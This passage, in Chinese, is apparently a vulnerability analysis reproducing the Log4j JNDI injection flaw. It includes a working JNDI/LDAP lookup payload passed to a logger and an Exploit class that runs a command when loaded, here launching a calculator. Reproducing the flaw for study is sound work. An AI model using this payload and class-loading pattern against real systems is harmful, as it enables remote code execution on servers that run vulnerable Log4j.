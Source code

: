 JDK版本：

```bash
$ java -version
java version "1.8.0_144"
Java(TM) SE Runtime Environment (build 1.8.0_144-b01)
Java HotSpot(TM) 64-Bit Server VM (build 25.144-b01, mixed mode)
```

由于JDK1.8.191以上以及默认不支持LDAP协议了，所以对于高版本的JDK需要一定的依赖(并非高版本的JDK就一定安全)。

使用JDK11.0.1、8u191、7u201、6u211以上版本在一定程度上可以阻止该漏洞，但并非绝对的。

复现代码：

```java
package com.test;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

public class main {
    public static final Logger logger = LogManager.getLogger();
    public static void main(String[] args) {
        logger.error("error_mes:${jndi:ldap://localhost:8888/Exploit}");
    }
}
```

在上述代码中只简单地声明了静态Logger对象，并且在主函数内调用了logger的error方法，值得注意的是传入error方法的参数。

在进行分析之前，还需要进行进一步的准备。

### 0x03 JNDI LDAP Server

与FastJSON漏洞如出一辙，先写一个执行任意命令的Exploit类：

```java
class Exploit {
    static {
        try {
            String cmd = "calc";
            Runtime.getRuntime().exec(cmd);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

将代码放入静态区，或者在构造函数内执行任意命令，都是可行的。

编译该代码：

```bash
javac Exploit.java
```

这将产生一个`Exploit.class`的文件，这个字节码文件将通过LDAP协议被传输到我们上面写的程序上，Java将使用`loadClass`动态加载该类，从而执行我们的恶意代码。

